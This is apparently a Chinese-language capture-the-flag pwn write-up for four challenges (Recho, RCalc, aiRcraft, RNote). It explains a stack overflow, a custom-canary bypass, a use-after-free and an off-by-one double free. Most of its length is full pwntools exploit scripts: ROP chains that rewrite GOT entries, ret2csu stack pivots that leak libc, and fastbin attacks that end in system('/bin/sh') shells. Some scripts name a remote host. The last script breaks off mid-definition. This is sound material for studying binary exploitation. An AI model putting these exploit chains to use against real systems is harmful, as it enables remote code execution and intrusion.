Recho 分析 简单的栈溢出，但是循环判断的，想要触发溢出，需要退出循环


利用 题目中给了hint
rop思路如下
1 open(flag)->read(flag->bss)->write(bss->STDOUT)
程序中留了相关的gadget 可以用于修改GOT表中的函数入口为syscall以及”flag”字符串用于open()->read()->write()来读flag
于是我们来通过add byte ptr [rdi], al ; ret来修改got表，指向一个syscall
1 syscall(rax,rdi,rsi,rdx)
libc中的alarm等函数会调用syscall

可见syscall在alarm+5的地方
于是修改alarm_got–>syscall,从而调用open完成rop即可
tips:
1 程序刚刚启动的时候，0是标准输入，1是标准输出，2是标准错误。如果此时去打开一个新的文件，它的文件描述符会是3。POSIX标准要求每次打开文件时（含socket）必须使用当前进程中最小可用的文件描述符号码
exp如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 #coding=utf8 from pwn import * context.log_level = 'debug' context.arch = 'i386' local = 1 elf = ELF('./Recho') if local: io = process('./Recho') libc = ELF('/home/lu/pwn/libc/libc-2.23.so') else: io = remote('106.75.27.104' ,50514) libc = ELF('/home/lu/pwn/libc/libc-2.23.so') def z(a=''): gdb.attach(io,a) if a == '': raw_input() rax_ret = 0x4006fc rdi_ret = 0x4008a3 rdx_ret = 0x4006fe rsi_r15_ret = 0x4008a1 add_rdi_al_ret = 0x40070d # add byte ptr [rdi], al ; ret flag_addr = 0x601058 alarm_got = elf.got['alarm'] read_plt = elf.plt['read'] write_plt = elf.plt['write'] alarm_plt = elf.plt['alarm'] io.recvuntil('Welcome to Recho server!\n') payload = '\x90'*56 payload += p64(rdi_ret)+p64(elf.got['alarm']) payload += p64(rax_ret)+p64(0x5) payload += p64(add_rdi_al_ret) #open(flag_addr,constants.O_RDONLY) payload += p64(rax_ret)+p64(0x2) payload += p64(rdi_ret)+p64(flag_addr) payload += p64(rsi_r15_ret)+p64(constants.O_RDONLY)+p64(0xdeadbeef) # payload += p64(rdx_ret)+p64(0) payload += p64(alarm_plt) #read(fd=3,bss_addr,0x30) payload += p64(rdi_ret)+p64(3) payload += p64(rsi_r15_ret)+p64(elf.bss())*2 payload += p64(rdx_ret)+p64(0x30) payload += p64(read_plt) #write(1,bss_addr,0x30) payload += p64(rdi_ret)+p64(1) payload += p64(rsi_r15_ret)+p64(elf.bss())*2 payload += p64(rdx_ret)+p64(0x30) payload += p64(write_plt) io.sendline(str(len(payload))) io.send(payload) io.shutdown("send") io.interactive()
Rcacl 分析 首先这题没有开canary，但却自己实现了一个canary保护，函数开始处生成了一个随机数分别放到堆和栈上，函数结束时检查栈上的随机数和堆上的是否相同以判断是否有溢出。
保存随机数的堆

随机数canary生成

check

漏洞点很明显，scanf存在栈溢，但scanf函数会有一些截断，如%20 会有截断，但利用时会用到的got等都包含0x20

每次计算的结果会存放在canary堆上边0x100的堆上，那么只要结果大于0x100就会溢出到canary堆

利用 x64中__libc_csu_init的2个万能rop gadget
1 2 mov rdx, r13 ; mov rsi, r14 ; mov edi, r15d ; call qword [r12+rbx*8]; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15; ret ;
在 64 位程序中，函数的前 6 个参数是通过寄存器传递的，但是大多数时候，我们很难找到每一个寄存器对应的gadgets。 这时候，我们可以利用 x64 下的 __libc_csu_init 中的 gadgets。这个函数是用来对 libc 进行初始化操作的，而一般的程序都会调用 libc 函数，所以这个函数一定会存在。
init函数如下


1 2 3 4 5 6 7 pop rbx #必须为0 pop rbp #必须为1 pop r12 #函数地址 pop r13 #edi pop r14 #rsi pop r15 #rdx ret #跳转到part2
下面附上一个可直接调用的函数：
1 2 3 4 5 6 7 8 9 10 11 def com_gadget(part1, part2, jmp2, arg1 = 0x0, arg2 = 0x0, arg3 = 0x0): payload = p64(part1) # part1 entry pop_rbx_pop_rbp_pop_r12_pop_r13_pop_r14_pop_r15_ret payload += p64(0x0) # rbx must be 0x0 payload += p64(0x1) # rbp must be 0x1 payload += p64(jmp2) # r12 jump to payload += p64(arg3) # r13 -> rdx arg1 payload += p64(arg2) # r14 -> rsi arg2 payload += p64(arg1) # r15 -> edi arg3 payload += p64(part2) # part2 entry will call [r12+rbx*0x8] payload += 'A' * 56 # paddings 6*8+8=56 return payload
思路总结:
利用堆溢出覆盖存放在heap上的canary，从而绕过程序自己实现的ssp。利用libc_csu_init的gadget构成ROP将payload[puts(elf.got[‘ libc_start_main’]),泄露libc]写到bss上，再利用stack pivot将控制流劫持到bss上。再次利用同样的方式将payload[system(‘/bin/sh’)]写到bss，进而stack pivot将控制流劫持到bss上，getshell。
exp如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 #coding=utf8 from pwn import * context.log_level = 'debug' context.arch = 'i386' local = 1 elf = ELF('./RCalc') if local: io = process('./RCalc') libc = ELF('/home/lu/pwn/libc/libc-2.23.so') else: io = remote('106.75.27.104' ,50514) libc = ELF('/home/lu/pwn/libc/libc-2.23.so') def z(a=''): gdb.attach(io,a) if a == '': raw_input() def add(a, b, choice=True): io.recvuntil('Your choice:') io.sendline('1') io.recvuntil('input 2 integer: ') io.sendline(str(a)) io.sendline(str(b)) io.recvuntil('Save the result? ') if choice == True: io.sendline('yes') else: pass def exit(): io.recvuntil('Your choice:') io.sendline('5') def com_gadget(part1, part2, jmp2, arg1 = 0x0, arg2 = 0x0, arg3 = 0x0): payload = p64(part1) # part1 entry pop_rbx_pop_rbp_pop_r12_pop_r13_pop_r14_pop_r15_ret payload += p64(0x0) # rbx must be 0x0 payload += p64(0x1) # rbp must be 0x1 payload += p64(jmp2) # r12 jump to payload += p64(arg3) # r13 -> rdx arg1 payload += p64(arg2) # r14 -> rsi arg2 payload += p64(arg1) # r15 -> edi arg3 payload += p64(part2) # part2 entry will call [r12+rbx*0x8] payload += "\x90"*16+p64(addr-8)+"\x90"*32 return payload p_rdi = 0x401123 ''' csu_init1 0x40111a: pop rbx 0x40111b: pop rbp 0x40111c: pop r12 0x40111e: pop r13 0x401120: pop r14 0x401122: pop r15 0x401124: ret ''' csu_init1 = 0x40111A ''' csu_init2 0x401100: mov rdx,r13 0x401103: mov rsi,r14 0x401106: mov edi,r15d 0x401109: call QWORD PTR [r12+rbx*8] 0x40110d: add rbx,0x1 0x401111: cmp rbp,rbx 0x401114: jne 0x401100 0x401116: add rsp,0x8 0x40111a: pop rbx 0x40111b: pop rbp 0x40111c: pop r12 0x40111e: pop r13 0x401120: pop r14 0x401122: pop r15 0x401124: ret ''' csu_init2 = 0x401100 leave_ret = 0x401034 addr = 0x602000+0x300 name = '\x90'*0x108 name += p64(2) #canary name += '\x90'*0x8 # read(stdin,addr,0x100) ''' leave move esp,ebp # 将ebp的值赋给esp pop ebp #弹出ebp ''' rop1 = p64(csu_init1)+p64(0x1050)+p64(0x1051) + p64(0x5f9dd0) + p64(0x100) + p64(addr) + p64(0) rop1 += p64(csu_init2)+"\x90"*16+p64(addr-8)+"\x90"*32+p64(leave_ret) # puts __libc_start_main addr rop2 = p64(p_rdi) + p64(elf.got['__libc_start_main']) + p64(elf.plt['puts']) # read(0,addr,0x100) stack pivot rop3 = p64(csu_init1) + p64(0) + p64(1) + p64(elf.got['read']) + p64(0x100) + p64(addr) + p64(0) rop3 += p64(csu_init2) + "\x90"*16+p64(addr-8)+"\x90"*32+p64(leave_ret) payload1 = name + rop1 io.recvuntil('Input your name pls: ') io.sendline(payload1) # heap overflow for i in range(0x22): add(1, 1, True) add(1, 1, True) #overwrite heap's canary exit() # payload2 = rop2 + rop3 payload2 = rop2 + com_gadget(csu_init1,csu_init2,elf.got['read'],0,addr,0x100) + p64(leave_ret) io.send(payload2) __libc_start_main_addr = u64(io.recvline()[:-1].ljust(0x8, "\x00")) libc_base = __libc_start_main_addr - libc.sym['__libc_start_main'] system_addr = libc.symbols['system'] + libc_base binsh_addr = next(libc.search("/bin/sh")) + libc_base # system("/bin/sh") payload3 = p64(p_rdi) + p64(binsh_addr) + p64(system_addr) io.send(payload3) io.interactive()
aiRcraft 分析 两个结构体
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 飞机 struct plane { char name[32]; char *company; airport *ptr; plane *prev; plane *next; void (*fun_ptr) (plane *ptr); } 飞机场 struct { char *name; plane planes[16]; }
4个操作，
漏洞
1 卖机场，free后没有置空，存在UAF
利用思路：
首先泄露heap_base,libc和proc_base
利用fastbin_dup即可泄露出heap base
利用卖飞机的UAF，可以在建机场时申请同样大小的名字，进而构造一个fake chunk覆盖机场的chunk，就可以泄露libc和proc_base
利用fastbin attack修改名为’/bin/sh’的飞机的free指针为system，进而getshell
具体实现：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 fastbin attack buy(1, p64(heap_base+0x2a0)) buy(1, p64(heap_base+0x2a0)) buy(1, p64(heap_base+0x2a0)) 从该plane偏移为0x20处开始伪造，所以前边为heap_base+0x2a0 payload = p64(proc_base+0x202028) # company payload += p64(0) # airport payload += p64(heap_base+0x330) payload += p64(heap_base+0x330) payload += p64(system_addr) build(0x40, payload)
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 from pwn import * context.binary = './aiRcraft' elf = ELF('./aiRcraft') if len(sys.argv)==2: if sys.argv[1] == 'local': io = process("./aiRcraft",env={'LD_PRELOAD':"./libc.so.6"}) libc = ELF('./libc.so.6') elif sys.argv[1] == 'remote': io = remote(IP,PORT) elif sys.argv[1] == 'debug': context.log_level = 'debug' io = process("./aiRcraft",env={'LD_PRELOAD':"/lib/x86_64-linux-gnu/libc.so.6"}) libc = ELF("/lib/x86_64-linux-gnu/libc.so.6") else: log.info("Please input Argvs:recol,remote,debug") def buy(Type,Name): io.recvuntil("Your choice: ") io.sendline("1") io.recvuntil("Your choice: ") io.sendline(str(Type)) io.recvuntil("Input the plane's name: ") io.sendline(Name) def build(Length,Name): io.recvuntil("Your choice: ") io.sendline("2") io.recvuntil("How long is the airport's name? ") io.sendline(str(Length)) io.recvuntil("Please input the name: ") io.sendline(Name) def enter_list(Airport_Id): io.recvuntil("Your choice: ") io.sendline("3") io.recvuntil("Which airport do you want to choose? ") io.sendline(str(Airport_Id)) io.recvuntil("Your choice: ") io.sendline("1") def enter_sell(Airport_Id): io.recvuntil("Your choice: ") io.sendline("3") io.recvuntil("Which airport do you want to choose? ") io.sendline(str(Airport_Id)) io.recvuntil("Your choice: ") io.sendline("2") def enter_exit(): io.recvuntil("Your choice: ") io.sendline("3") def select_fly(Plane,Airport_Id): io.recvuntil("Your choice: ") io.sendline("4") io.recvuntil("Which plane do you want to choose? ") io.sendline(Plane) io.recvuntil("Your choice: ") io.sendline("1") io.recvuntil("which airport do you want to fly? ") io.sendline(str(Airport_Id)) io.recvuntil("Your choice: ") io.sendline("3") def select_sell(Plane): io.recvuntil("Your choice: ") io.sendline("4") io.recvuntil("Which plane do you want to choose? ") io.sendline(Plane) io.recvuntil("Your choice: ") io.sendline("2") def select_exit(): io.recvuntil("Your choice: ") io.sendline("3") log.success("leak heap_base ...") build(0x20,'AAAA') buy(1,'aaaa') buy(2,'bbbb') select_fly("aaaa",0) select_fly("bbbb",0) select_sell("aaaa") select_sell("bbbb") enter_list(0) io.recvuntil('Docked at: AAAA',drop=True) io.recvuntil('Plane name: ',drop=True) heap_base = u64(io.recv(6).ljust(8,'\x00'))-0xc0 log.success('heap base is '+hex(heap_base)) enter_exit() log.success("leak proc_base ...") fake1 = 'c'*0x1f+'\x00' fake1 += p64(heap_base+0x110) fake1 += p64(heap_base+0x110) build(0x40,fake1) enter_list(0) io.recvuntil("Docked at: AAAA") io.recvuntil("Build by ") proc_base = u64(io.recv(6).ljust(8,'\x00')) - 0xb7d log.success(hex(proc_base)) enter_exit() log.success("Leak libc_base ...") puts_got = elf.got['puts']+proc_base fake2 = "d"*0x1f+"\x00" fake2 +=p64(puts_got) fake2 +=p64(heap_base+0x110) build(0x40,fake2) enter_list(0) io.recvuntil("Build by ") libc_base = u64(io.recv(6).ljust(8,'\x00')) - 0x6f690 log.success(hex(libc_base)) system_addr = libc_base+libc.sym['system'] enter_exit() buy(1, "/bin/sh\x00"+p64(0)*2+p64(0x51)) buy(1, "eeee") buy(1, "ffff") buy(1, "gggg") build(0x10, "BBBB") select_fly("eeee",3) select_sell("eeee") select_sell("ffff") enter_sell(3) buy(1, p64(heap_base+0x2a0)) buy(1, p64(heap_base+0x2a0)) buy(1, p64(heap_base+0x2a0)) payload = p64(proc_base+0x202028) payload += p64(0) payload += p64(heap_base+0x330) payload += p64(heap_base+0x330) payload += p64(system_addr) build(0x40, payload) select_sell('/bin/sh\0') io.interactive()
RNote 分析 逆向获得结构体如下
1 2 3 4 5 6 7 struct note { long flag; long size; char title[16]; char *content; }

漏洞在sub_4009C7函数中，off-by-one

溢出的1个字节刚好可以修改*content指针的最后一个字节

delete函数删除后没有置空，故存在double free
利用 利用double free来做fastbin attack，劫持__malloc_hook为one gadget
虽然delete后，会将flag置为0，但可以利用off by one漏洞覆盖content指针，构造两个指向同一堆块的指针来进行double free
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 from pwn import * context.binary = './RNote' elf = ELF('./RNote') if len(sys.argv)==2: if sys.argv[1] == 'local': io = process("./RNote",env={'LD_PRELOAD':"./libc.so.6"}) libc = ELF('./libc.so.6') elif sys.argv[1] == 'remote': io = remote(IP,PORT) elif sys.argv[1] == 'debug': context.log_level = 'debug' io = process("./RNote",env={'LD_PRELOAD':"/lib/x86_64-linux-gnu/libc.so.6"}) libc = ELF("/lib/x86_64-linux-gnu/libc.so.6") else: log.info("Please input Argvs:recol,remote,debug") def dbg(): gdb.attach(io) io.interactive() def add(size,title,content): io.sendlineafter("Your choice:","1") io.sendlineafter("Please input the note size:",str(size)) io.sendlineafter("Please input the title:",title) io.sendlineafter("Please input the content:",content) def 